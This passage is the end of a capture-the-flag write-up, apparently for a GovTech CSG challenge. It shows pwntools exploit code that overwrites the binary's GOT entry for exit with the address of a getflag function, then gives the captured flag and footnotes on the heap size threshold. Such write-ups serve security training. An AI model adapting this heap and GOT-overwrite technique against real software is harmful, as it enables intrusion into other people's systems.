```python
r.delete(2)
payload = pack(context.binary.got['exit']).rjust(context.bytes*4)
r.edit(1, len(payload), payload)
r.edit(1, 4, pack(context.binary.symbols['getflag']))
r.quit()
print(r.recvuntil('}'))
```
Chalk up another one.

## Flag
`govtech-csg{5t0p_c0v1d_r3cru1tm3nt}`

## Footnotes
1. I actually tried isolating the libc version before I realised `getflag()` existed. The libc-database couldn't identify the version!
2. The minimum value for which my exploit script still works is `0x48`, but `MAX_FAST_SIZE` is `80*SIZE_SZ/4 == 0x50`. I think I mixed up request size vs. actual size somewhere.
3. There's almost certainly something wrong here, whether be it the lowermost bits of size or something else. In any case, the script works.
